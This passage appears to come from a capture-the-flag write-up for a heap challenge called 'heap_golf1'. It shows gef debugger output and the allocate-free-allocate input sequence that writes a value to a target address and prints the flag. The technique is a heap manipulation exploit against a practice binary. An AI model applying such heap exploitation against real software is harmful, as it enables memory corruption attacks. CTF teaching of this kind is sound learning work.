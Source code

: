 ```
Breakpoint 2, 0x0000000000400862 in main ()
gef➤  p $edx
$3 = 0x2
gef➤  p $rax
$4 = 0x6022c0
```

```
Breakpoint 2, 0x0000000000400862 in main ()
gef➤  p $edx
$5 = 0x3
gef➤  p $rax
$6 = 0x602290
```

```
Breakpoint 2, 0x0000000000400862 in main ()
gef➤  p $edx
$7 = 0x4
gef➤  p $rax
$8 = 0x602260
```

With that last iteration, we finally write the value `0x4` to the address of target `0x602260`. With that we can capture the flag.

```
$ /heap_golf1 
target green provisioned.
enter -1 to exit simulation, -2 to free course.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: -2
target green provisioned.
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
Size of green to provision: 32
flag{g0ttem_b0is}
```
